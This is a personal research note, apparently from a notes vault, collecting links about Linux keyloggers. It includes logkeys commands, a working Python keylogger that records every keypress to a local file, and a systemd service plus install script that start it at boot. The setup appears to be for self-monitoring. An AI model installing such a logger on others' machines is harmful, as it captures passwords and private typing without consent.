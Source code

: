 ```yaml
---
share: true
uuid: 110c0e33-2ef8-470a-b094-c707827f7720
title: research
---
```

---
id: 4zI7TCRVN4AqHOJlschIv
title: research
desc: ''
updated: 1628449250371
created: 1628449250371
---
# Keylogger Software
*   List of keyloggers I was able to get to work
    *   [Bad display name "" when running via ssh · Issue #6 · moses-palmer/pynput](https://github.com/moses-palmer/pynput/issues/6)
    *   [How to Make a Keylogger in Python - Python Code](https://www.thepythoncode.com/article/write-a-keylogger-python)
    *   [keylogger · PyPI](https://pypi.org/project/keylogger/)
    *   [raspbian - How to start a python script at boot - Raspberry Pi Stack Exchange](https://raspberrypi.stackexchange.com/questions/108694/how-to-start-a-python-script-at-boot)
*   Links to Keyloggers I could not get to work
    *   [gsingh93/keylogger: A keylogger written in Rust](https://github.com/gsingh93/keylogger)
    *   [GiacomoLaw/Keylogger: A simple keylogger for Windows, Linux and Mac](https://github.com/GiacomoLaw/Keylogger)
    *   [deadblackclover/keylogger: Register various user actions - keystrokes on the computer keyboard, movements and mouse keystrokes](https://github.com/deadblackclover/keylogger)
*   The Key logger I want to use is called LogKeys but I could not get the correct key mapping
    *   [How to Monitor Keyboard Keystrokes Using 'LogKeys' in Linux](https://www.tecmint.com/how-to-monitor-keyboard-keystrokes-using-logkeys-in-linux/)
        *   Troubleshoot → [Linux keyboard event capturing /dev/inputX - Stack Overflow](https://stackoverflow.com/questions/2775461/linux-keyboard-event-capturing-dev-inputx)

    /proc/bus/input/devices
    
    ls -l /dev/input/by-id
    
    sudo logkeys -d event3 --export-keymap /home/dentropy/Documents/Software/keylogger/keymap.txt
    
    sudo logkeys -d event3 --keymap /home/dentropy/Documents/Software/keylogger/keymap.txt  -s
    
    sudo logkeys -d event3 --us-keymap -s

    # keylogger.py
    import keyboard # for keylogs
    from datetime import datetime
    
    # https://www.thepythoncode.com/article/write-a-keylogger-python
    # https://github.com/boppreh/keyboard#keyboard.hook
    
    class Keylogger:
        def callback_pressed(self, event):
            # print(event.name)
            # print(event.event_type)
            with open(f"./test-keylog.txt", "a") as f:
                event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
                print(event_string, file=f)
        def start(self):
            keyboard.hook(callback=self.callback_pressed)
            keyboard.wait()
    if __name__ == "__main__":
        keylogger = Keylogger()
        keylogger.start()
    

    # install.sh
    #!/bin/bash
    sudo cp keylogger.service /etc/systemd/system/keylogger.service
    sudo systemctl enable keylogger.service
    sudo systemctl start keylogger.service

    # keylogger.service
    [Unit]
    Description=Keylogger Service
    After=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out
    
    [Install]
    WantedBy=multi-user.target